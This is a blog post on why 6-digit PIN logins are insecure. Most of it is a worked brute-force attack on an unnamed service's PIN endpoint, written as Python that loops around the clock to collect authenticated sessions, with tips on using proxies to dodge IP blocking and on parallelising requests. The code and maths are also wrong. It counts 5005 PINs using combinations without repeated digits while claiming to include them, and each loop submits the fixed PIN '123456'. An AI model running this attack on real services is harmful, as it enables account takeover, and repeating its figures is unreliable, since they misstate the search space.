 ```yaml
---
layout: post
title:  Why pin login is bad
description: Accessing information using just pin login is dangerous and should be avoided at all costs.
date:   2022-01-04 14:04:00 +0500
categories: pin-login password security hacking
---
```


Accessing information using just pin login is dangerous and should be avoided at all costs.

# What is pin login ?

A pin login is a terminology used by people to provision access to data or an interface using a pin when they don't remember the password or when someone want to get access to account quickly using n digit pin.

# Use case

Recently i discovered one of the services that i was using used a pin login that will allow its customers to login to their account using a 6 digit pin.

Lets call the service xyz.com and the pin login page was available at https://xyz.com/account/pin-login

By entering the generated pin login behind the scenes the interface will allow a user to login to their account.

# Attach strategy

Firstly i need to figure out the valid pin login that i can use to access a user account randomly and save the session for me to access anytime i want. Once i am able to login to the account i can re use the session from a successful attack to access it again when ever i want.

It's a 6 digit pin login hence the combinations for this could be calculated using below formula

![image](https://user-images.githubusercontent.com/21299746/148114971-aefb43f5-724a-4373-bc50-20fd8ad00965.png)

n = 10 since we clearly know that it's a numerical combinations so the allowed total objects were 0-9

r = 6 the length of the pin

With this i can generate 5005 pins that could be tried that have repetitions i.e, a digit could be repeated one or more times.

I can generate the combinations with repetitions using python math module as below

```python

>>> from itertools import combinations

>>> n = range(10)

>>> r = 6

>>> values = list(combinations(n, r))

>>> possible_pins = ["".join(map(lambda x: str(x), item)) for item in values]

>>> possible_pins

['012345', '012346', '012347', '012348', '012349', '012356', '012357', '012358', '012359', '012367', '012368', '012369', '012378', '012379', '012389', '012456', '012457', '012458', '012459', '012467', '012468', '012469', '012478', '012479', '012489', '012567', '012568', '012569', '012578', '012579', '012589', '012678', '012679', '012689', '012789', '013456', '013457', '013458', '013459', '013467', '013468',...'356789', '456789']

```

# Attack

Since attempting to use pins in a browser with user interface is a memory intense operation i want to use something light and fast because we don't know yet how long these pins will be active/expire.

I made a network trace when i hit submit button using a random 6 digit pin and saw that the UI was making a post request to an endpoint https://xyz.com/account/pin-check

I can now use this network call to make a request using python requests module as below

```python

>>> import requests

>>> session = requests.Session()

>>> response = session.post("https://xyz.com/account/pin-check", json={"pin": "123456"})

>>> response

<Response [401]>

```

Now i will go ahead and try to use all the pins that i have to see if any pin is active and i can use it. I modified the above code to match my needs

```python

>>> successful_attacks = {}

>>> for pin in possible_pins:

>>>     session = requests.Session()

>>>     response = session.post("https://xyz.com/account/pin-check", json={"pin": "123456"})

>>>     if response.status_code == requests.codes.ok:

>>>         successful_attacks[pin] = session

```

The above code will find an active/valid pin during the time of request. I want to launch this attach throughout the day 24x7 so that if any one who generates the pin anytime i can get the session.

I will just put a while loop to do so.

```python

>>> def attack() -> dict:

>>>     successful_attacks = {}

>>>     for pin in possible_pins:

>>>         session = requests.Session()

>>>         response = session.post("https://xyz.com/account/pin-check", json={"pin": "123456"})

>>>         if response.status_code == requests.codes.ok:

>>>             successful_attacks[pin] = session

>>>     return successful_attacks

>>> successful_sessions = []

>>> while True:

>>>     successful_sessions += attack().values()

```

Once the above code runs forever i will get all the successful sessions that i can use to get access to the accounts.

# Problems that we have to address along the way

#### Too many requests from the same ip address can result in blocked network calls

To resolve this we can use proxy ip addresses to make anonymized network calls using requests

#### Time consumed for each attack with series of requests one after another

Now this is a good problem that i want to solve. If each request will take n seconds on an average, then it will take n * 5005 seconds for each attack. There is a possibility that a pin was created and expired during this time. So we have to be fast. To resolve this we can use multi processing or distributed task processing to distribute 5005 tasks evenly so that the results were generated instantly without having to wait on others.

# Conclusion

Pin logins are dangerous. Avoid completely if possible otherwise at least make it very complex so that the combinations are at higher level. You can achieve that by allowing characters, digits, special characters as a part of your pin with a long lengths. Set the pin expiry as small as possible so that a pin could be alive for only a very small time.
